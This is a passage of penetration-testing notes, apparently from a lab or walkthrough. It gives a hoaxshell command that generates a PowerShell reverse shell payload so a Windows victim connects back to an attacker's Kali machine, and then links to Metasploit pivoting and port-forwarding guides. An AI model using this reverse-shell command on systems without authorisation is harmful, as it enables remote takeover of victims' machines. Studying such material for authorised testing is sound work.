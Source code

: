 </div>

Great, we're in target 3 machine!

#### In addition, we can use this tool to create a powershell reverse shell for Windows machine to communicate back to attacker machine (kali).

{% embed url="https://github.com/t3l3machus/hoaxshell" %}

```bash
python hoaxshell.py -s <Victim_IP> -p 9999
```

it generates a reverse shell payload on execute on windows victim machine using powershell.

It permits us to obtain a reverse shell connection with windows victim machine on our attacker kali machine.

## Metasploit

#### Pivoting

{% embed url="https://www.offsec.com/metasploit-unleashed/pivoting/" %}
Pivoting
{% endembed %}

#### Port Forwarding

{% embed url="https://www.offsec.com/metasploit-unleashed/portfwd/" %}
Portfwd
{% endembed %}
